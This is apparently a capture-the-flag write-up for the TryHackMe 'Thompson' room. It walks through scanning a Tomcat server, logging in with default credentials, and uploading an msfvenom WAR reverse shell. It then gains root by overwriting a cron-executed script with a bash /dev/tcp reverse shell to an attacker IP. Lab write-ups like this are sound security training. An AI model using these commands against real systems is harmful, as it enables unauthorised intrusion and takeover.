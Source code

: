 # [Challenge](https://tryhackme.com/room/bsidesgtthompson)

- # ENUM
	- ### nmap (`nmap -A -p- -T4 --min-rate 5000 thompson`)
		- 22 -> ssh
		- 8009 -> ajp13
		- 8080 -> http (Tomcat 8.5.5)
	
- # EXPLOITATION
	Let's search on `searchsploit` if there's a vulnerability in Tomcat 8.5.5: `CVE-2017-12617`
	It's not vulnerable :\
	Let's check further on the website: there's a page called `/manager`. The credentials are the default ones, `tomcat:s3cret`.
	In the management page there's a file upload form (WAR, 'cause Tomcat it's a java server), so let's [generate](https://www.revshells.com/) a revshell: `msfvenom -p java/shell_reverse_tcp LHOST=10.17.32.83 LPORT=4444 -f war -o shell.war` and upload it: we're in!
	First, let's spawn a bash: `python3 -c "import pty; pty.spawn('/bin/bash')"` and read the user flag.

- # PRIVILEGE ESCALATION
	As `tomcat`, we can't `sudo -l`. Let's check the SUID bits: `find / -perm -4000 -print 2>/dev/null`.
	There's an interesting script: `/home/jack/id.sh`. Let's run `linpeas.sh`: there's a cronjob that executes `id.sh` every minute! Let's modify the file so we can get a root shell:
	```bash
	#!/bin/bash
	bash -i >& /dev/tcp/10.17.32.83/8888 0>&1
	```
	Let's wait and... we're ROOT!
	